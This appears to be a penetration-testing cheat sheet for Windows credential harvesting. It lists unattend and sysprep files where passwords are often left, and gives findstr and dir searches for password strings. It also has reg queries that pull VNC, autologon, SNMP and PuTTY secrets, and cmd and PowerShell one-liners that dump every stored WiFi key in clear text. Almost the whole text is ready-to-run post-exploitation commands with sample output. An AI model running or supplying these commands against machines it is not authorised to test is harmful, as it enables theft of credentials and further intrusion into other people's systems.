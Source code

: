 #Passwords In Files:
These are common files to find them in. They might be base64-encoded. So look out for that.

1. c:\sysprep.inf
2. c:\sysprep\sysprep.xml
3. c:\unattend.xml
4. %WINDIR%\Panther\Unattend\Unattended.xml
5. %WINDIR%\Panther\Unattended.xml


## clear text Passwords
### findstr /si password *.txt *.ini *.config *.xml
Look through output. most will help files, but you might get lucky and find an actual password file. 

## Find all those strings in config files.
### dir /s *pass* == *cred* == *vnc* == *.config*

## Find all passwords in all files.
### findstr /spin "password" *.*

## Other Searches
```
dir c:\*vnc.ini /s /b
```

```
dir c:\*ultravnc.ini /s /b 
```

```
dir c:\ /s /b | findstr /si *vnc.ini
```

#Passwords In Registry:
## VNC
```
reg query "HKCU\Software\ORL\WinVNC3\Password"
``

## Windows autologin
```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```

## SNMP Paramters
```
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
```

## Putty
```
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
```

## Search for password in registry
```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```



# WiFi Passwords
## Grab all wifi passwords and format the output to be easy to read:
```
cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on
```

### netsh wlan show profile

```
C:\>netsh wlan show profile

Profiles on interface Wi-Fi:

Group policy profiles (read only)
---------------------------------
    <None>

User profiles
-------------
    All User Profile     : NETGEAR59
```
### netsh wlan show profile name="NETWORK" key=clear
### netsh wlan show profile NETGEAR59 key=clear
```
C:\>netsh wlan show profile NETGEAR59 key=clear

Profile NETGEAR59 on interface Wi-Fi:
=======================================================================

Applied: All User Profile

Profile information
-------------------
    Version                : 1
    Type                   : Wireless LAN
    Name                   : NETGEAR59
    Control options        :
        Connection mode    : Connect automatically
        Network broadcast  : Connect only if this network is broadcasting
        AutoSwitch         : Do not switch to other networks
        MAC Randomization  : Disabled

Connectivity settings
---------------------
    Number of SSIDs        : 1
    SSID name              : "NETGEAR59"
    Network type           : Infrastructure
    Radio type             : [ Any Radio Type ]
    Vendor extension          : Not present

Security settings
-----------------
    Authentication         : WPA2-Personal
    Cipher                 : CCMP
    Authentication         : WPA2-Personal
    Cipher                 : GCMP
    Security key           : Present
    Key Content            : password123		<== Clear Text Password

Cost settings
-------------
    Cost                   : Unrestricted
    Congested              : No
    Approaching Data Limit : No
    Over Data Limit        : No
    Roaming                : No
    Cost Source            : Default
```


# Powershell Wifi Password Greb
## Grab all wifi passwords and format the output to be easy to read:
```
(netsh wlan show profiles) | Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | % {(netsh wlan show profile name="$name" key=clear)} | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ SSID=$name;PASSWORD=$pass }} | Format-Table -AutoSize
```







